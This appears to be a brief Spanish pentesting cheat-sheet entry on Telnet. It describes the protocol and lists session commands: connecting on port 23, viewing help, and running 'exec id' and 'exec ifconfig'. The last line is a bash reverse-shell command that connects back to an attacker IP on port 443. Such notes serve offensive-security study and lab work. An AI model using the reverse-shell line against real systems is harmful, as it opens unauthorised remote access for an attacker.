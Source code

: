 # Telnet 

Tags: #Telnet #Puerto #Comandos 

Telnet es el nombre de un protocolo de red que nos permite acceder a otra máquina para manejarla remotamente como si estuviéramos sentados delante de ella. También es el nombre del programa informático que implementa el cliente.

```bash 
❯ telnet <IP> 23                             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                                     # Miramos el panel de ayuda, en ocasiones encontramos ‘exec system commands’ 
     ❯ exec id                               # Nos muestra el id en el que estamos
     ❯ exec ifconfig                         # Nos muestra las interfaces y su ip address
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si podemos ejecutar comandos, podemos hacer una ReverShell de esta manera, IP del atacante y su puerto
```